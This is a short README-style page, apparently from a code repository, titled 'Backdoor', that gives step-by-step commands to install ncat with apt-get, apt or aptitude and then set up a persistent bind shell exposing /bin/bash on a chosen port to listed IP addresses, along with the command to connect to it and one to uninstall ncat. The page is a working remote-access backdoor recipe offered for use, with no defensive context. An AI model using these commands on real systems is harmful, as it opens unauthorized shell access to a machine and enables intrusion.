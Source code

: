 # Backdoor 
## Install ncat on the locat box
### Apt-get (Install)
'sudo apt-get update'
'sudo apt-get -y install ncat'

### Apt (Install)
'sudo apt update'
'sudo apt -y install ncat'

### Aptitude (Install)
'sudo aptitude update'
'sudo aptitude -y install ncat'

## Local box that will be backdoored into 
'ncat -k -nvlp <port> -e "/bin/bash" --allow <ip's go here>'

## Box that will backdoor into local machine 
'ncat -nv <ip address of local box> <port>'



### If ncat needs to be deleated
'sudo apt-get -y autoremove --purge ncat'

